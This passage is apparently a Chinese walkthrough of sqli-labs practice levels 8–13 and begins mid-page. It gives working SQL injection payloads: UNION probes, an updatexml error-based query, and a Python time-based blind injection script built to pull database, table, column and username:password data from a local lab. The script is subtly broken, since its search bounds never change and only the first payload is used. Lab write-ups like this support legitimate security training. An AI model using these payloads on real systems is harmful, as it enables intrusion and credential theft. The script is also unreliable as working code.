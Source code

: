 同Less-8

## Less-10

"闭合，其它同Less-8。

## Less-11

变成了POST传参

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240325175834.png)

判断回显位置：uname=-1'union select 1,2--+&passwd=1&submit=Submit

其它和Less-1相同。

## Less-12

")闭合

## Less-13（POST时间盲注

')闭合，无回显。

1和0无区别，所以不能用布尔盲注，考虑用报错注入或者时间盲注。

报错注入：uname=0')union select 1,updatexml(1,concat(0x7e,database(),0x7e),1)#&passwd=1&submit=Submit

时间盲注：

```python
import time

import requests

url = 'http://127.0.0.1:1235/sqli-labs/Less-13/'
flag = ''
for i in range(1,1000):
    low = 32
    high = 126
    while (low < high):
        #print(mid)
        #爆库
        payload1 = "admin')and if(ascii(substr((select(database())),{0},1))={1},sleep(2),null)#".format(i,low)
        #爆表
        payload2 = "admin')and if(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),{0},1))={1},sleep(1),null)#".format(i,low)
        # 爆列
        payload3 = "admin')and if(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),{0},1))={1},sleep(1),null)#".format(i, low)
        # 爆数据
        payload4 = "admin')and if(ascii(substr((select(group_concat(username,':',password))from(security.users)),{0},1))={1},sleep(1),null)#".format(i, low)
        start = time.time()
        data = {
            "uname" : payload1,
            "passwd" : "1",
            "submit" : "Submit"
        }
        r = requests.post(url=url,data=data)
        end = time.time()
        if(end - start > 1.8):
            flag += chr(low)
            break
```